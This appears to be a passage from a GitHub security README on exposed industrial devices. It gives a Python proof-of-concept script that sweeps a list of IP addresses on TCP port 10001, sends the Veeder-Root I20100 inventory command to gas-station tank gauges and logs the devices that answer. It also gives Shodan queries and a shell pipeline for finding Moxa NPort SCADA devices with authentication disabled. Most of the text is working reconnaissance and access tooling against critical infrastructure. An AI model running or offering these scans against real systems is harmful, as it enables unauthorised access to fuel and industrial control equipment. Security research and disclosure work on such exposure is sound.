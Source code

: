 In 2015, HD Moore, the creator of Metasploit, published an article disclosing over 5,800 gas station Automated Tank Gauges (ATGs) which were publicly accessible. Besides monitoring for leakage, these systems are also instrumental in gauging fluid levels, tank temperature, and can alert operators when tank volumes are too high or have reached a critical low. ATGs are utilized by nearly every fueling station in the United States and tens of thousands of systems internationally. They are most commonly manufactured by Veeder-Root, a supplier of fuel dispensers, payment systems, and forecourt merchandising. For remote monitoring of these fuel systems, operators will commonly configure the ATG serial interface to an internet-facing TCP port (generally set to TCP 10001). This script reads the Get In-Tank Inventory Report from TCP/10001 as a proof of concept to demonstrate the arbitrary access.

```python
#!/usr/bin/env python3


import time
import socket
with open("/tmp/ATG_SCAN.txt",'r') as atg_file:
    for line in atg_file.read().splitlines():
        try:
            atg_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            port = 10001
            search_str = 'IN-TANK INVENTORY'
            msg = str('\x01' + 'I20100' + '\n').encode('ascii')
            atg_socket.connect((line, port))
            atg_socket.send(msg)
            time.sleep(.25)
            response = atg_socket.recv(1024).decode()
            if search_str in response:
                with open("/tmp/ATG_DEVICES.txt", 'a') as file2:
                    file2.write(line + "\t ->\tATG Device\n")
            else:
                continue
            atg_socket.close()
        except:
            pass
atg_file.close()
```

Video PoC:

https://www.youtube.com/watch?v=HkO4cs95erU&t=818s

## Access Moxa Devices:

SCADA system that uses Moxa brand products to establish connectivity and communication with industrial devices that are being monitored and controlled in a critical infrastructure or industrial process.

```console
"Moxa Nport Device" Status: Authentication enabled port:"4800"
"Moxa Nport Device" Status: Authentication disabled port:"4800"
shodan search --separator , --fields ip_str,port,data "Moxa Nport" | awk '{print $1,$2,$3}' FS=":" | tr '\\', ' ' | awk '{print $1,$7,$8}' | column -t | ccze -A
```
